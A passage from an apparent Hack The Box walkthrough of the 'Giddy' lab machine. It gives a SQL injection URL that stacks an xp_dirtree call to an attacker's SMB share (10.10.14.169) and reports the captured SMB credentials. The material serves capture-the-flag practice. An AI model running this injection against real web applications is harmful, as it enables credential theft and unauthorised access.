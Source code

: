 Execute the undocumented stored procedure from the web application like so.

```
https://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=18; EXEC master.sys.xp_dirtree '\\10.10.14.169',1,1
```

<a class="image-popup">
![b6c03745.png](/assets/images/posts/giddy-htb-walkthrough/b6c03745.png)
</a>

The moment the request is sent, the SMB credentials are captured.

<a class="image-popup">
![77140cef.png](/assets/images/posts/giddy-htb-walkthrough/77140cef.png)